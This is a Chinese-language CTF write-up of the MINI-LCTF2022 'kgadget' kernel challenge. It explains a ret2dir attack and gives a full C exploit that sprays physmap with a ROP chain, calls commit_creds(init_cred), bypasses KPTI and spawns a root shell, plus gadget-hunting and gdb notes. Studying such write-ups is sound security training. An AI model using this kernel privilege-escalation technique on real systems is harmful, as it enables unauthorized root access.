 ```yaml
---
layout: post
tags: [kernel_pwn]
title: "MINI-LCTF2022 kgadget复现 ret2dir"
date: 2022-10-13
author: wsxk
comments: true
---
```


PS:请观看完[linux内核基础 二](https://wsxk.github.io/linux_kernel_basic_two/)后练习该题<br>

- [题目分析](#题目分析)
- [exp](#exp)
- [遇到的坑](#遇到的坑)
  - [1.新的获取vmlinux工具](#1新的获取vmlinux工具)
  - [2.ROPgadget搜索不全](#2ropgadget搜索不全)
  - [3.gdb用法](#3gdb用法)
  - [4. ret、retf、iretq、iret](#4-retretfiretqiret)
  - [5.使用swapgs\_restore\_regs\_and\_return\_to\_usermode](#5使用swapgs_restore_regs_and_return_to_usermode)
- [reference](#reference)


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>


## 题目分析<br>
只有`kgadget_ioctl`有用
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221013212902.png)<br>
但是它的代码其实不太对劲，需要我们自己看汇编<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221013212950.png)
主要思路是，cmd=114514后，可以通过param（v3 rdx）传入的指针获得函数地址，随后调用<br>
可以看到，它对pt_regs的其他值做了限制，导致你只能使用`r8 r9`两个寄存器<br>，
该题目利用了`direct mapping of all physical memory`的漏洞，通过mmap大量的用户态内存地址，写入同样的payload，（使用栈迁移`stack migration`技术将栈转移到rop_chain中）在物理内存映射区里选择一个地址，有很大的概率会命中rop_chain，最终完成利用。<br>
详细细节可以看[arttnba3的blog](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#%E4%BE%8B%E9%A2%98%EF%BC%9AMINI-LCTF2022-kgadget)


## exp<br>
```c
#include <sys/types.h>
#include <stdio.h>
#include <linux/userfaultfd.h>
#include <pthread.h>
#include <errno.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <signal.h>
#include <poll.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sys/sem.h>
#include <semaphore.h>
#include <poll.h>

size_t commit_creds=0;
size_t prepare_kernel_cred =0;

size_t user_cs;
size_t user_ss;
size_t user_sp;
size_t user_rflags;
void save_status(void){
    __asm__(
        "mov user_cs,cs;"
        "mov user_ss,ss;"
        "mov user_sp,rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void get_root_shell(void){
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }
    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    system("/bin/sh");
}

//ret2usr
void get_root_privilege(){
    //printf("use ret2usr\n"); //don't use user func in kernel space!
    void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}

int fd;
size_t page_size;
size_t * ptr_buff[15000];
size_t pop_rsp_ret = 0xffffffff811483d0;
size_t  add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret = 0xffffffff810737fe;
size_t ret = 0xffffffff8108c6f1;
size_t pop_rdi_ret = 0xffffffff8108c6f0;
size_t init_cred = 0xFFFFFFFF82A6B700; 
size_t swapgs_restore_regs_and_return_to_usermode = 0xFFFFFFFF81C00FCB;
size_t try_hit ; 

void make_rop_chain(size_t * addr){
    int i;
    for(i=0;i<(page_size/8-0x30);i++){
        addr[i]= add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret;
    }
    for (; i < (page_size / 8 - 0x10); i++)
        addr[i] = ret;
    addr[i++] = pop_rdi_ret;
    addr[i++] = init_cred;
    addr[i++] = commit_creds;
    addr[i++] = swapgs_restore_regs_and_return_to_usermode;
    addr[i++] =  *(size_t*) "wsxkwsxk";
    addr[i++] = *(size_t*) "wsxkwsxk";
    addr[i++] = get_root_shell;
    addr[i++] = user_cs;
    addr[i++] = user_rflags;
    addr[i++] = user_sp;
    addr[i++] = user_ss;
}

int main(){
    commit_creds = 0xFFFFFFFF810C92E0;
    save_status();
    fd = open("/dev/kgadget",O_RDWR);
    if(fd<0){
        printf("error in open device!\n");
    }
    page_size  = sysconf(_SC_PAGESIZE);
    printf("start test\n");
    ptr_buff[0]=mmap(NULL,page_size,PROT_WRITE|PROT_READ,MAP_PRIVATE | MAP_ANONYMOUS,-1,0);
    make_rop_chain(ptr_buff[0]);
    int i ;
    for(i=1;i<15000;i++){
        ptr_buff[i]=mmap(NULL,page_size,PROT_WRITE|PROT_READ,MAP_PRIVATE | MAP_ANONYMOUS,-1,0);
        if(!ptr_buff[i]){
            printf("mmap fail!\n");
            exit(-2);
        }
        memcpy(ptr_buff[i],ptr_buff[0],page_size);
        //make_rop_chain(ptr_buff[i]);
    }
    printf("start attack!\n");
    try_hit = 0xffff888000000000 + 0x7000000;//this addr comes from the layout of linux mem
    __asm__(
        "mov r15,0x11111111;"
        "mov r14,0x22222222;"
        "mov r13,0x33333333;"
        "mov r12,0x44444444;"
        "mov rbp,0x55555555;"
        "mov rbx,0x66666666;"
        "mov r11,0x77777777;"
        "mov r10,0x88888888;"
        "mov r9,pop_rsp_ret;"
        "mov r8,try_hit;"
        "mov rax,0x10;"
        "mov rcx,0xcccccccc;"
        "mov rdx,try_hit;"
        "mov rsi,0x1BF52;"
        "mov rdi,fd;"
        "syscall"
    );
    return 0;
}
```

## 遇到的坑<br>
### 1.新的获取vmlinux工具<br>
github搜索 vmlinux-to-elf<br>
可以安装该工具，能够成功提取出可供ida分析的内核文件<br>
```
vmlinux-to-elf input_file output_file
```
### 2.ROPgadget搜索不全<br>
github安装ropper<br>
```
ropper --clear-cache
ropper -f vmlinux --nocolor > gadget.txt
```
### 3.gdb用法<br>
```gdb
gdb vmlinux
add-symbol-file xxx.ko addr -s .data addr -s .bss addr (addr内核root权限通过 cat /sys/module/xxx.ko/sections/.text .data .bss获得)
target remote :1234
b entry_SYSCALL_64 #可以在执行syscall后进行调试
```
### 4. ret、retf、iretq、iret<br>
call 对于 ret（pop rip）<br>
call far 对于 retf（从栈顶弹出 EIP >> CS >> EFLAGS >> ESP >> SS）<br>
iret（4字节） iretq（8字节版本）<br>
### 5.使用swapgs_restore_regs_and_return_to_usermode<br>
因为开启了`kpti`保护

## reference<br>
[arttnba3的blog](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#%E4%BE%8B%E9%A2%98%EF%BC%9AMINI-LCTF2022-kgadget)<br>
[https://blog.csdn.net/qq_50332504/article/details/124145581](https://blog.csdn.net/qq_50332504/article/details/124145581)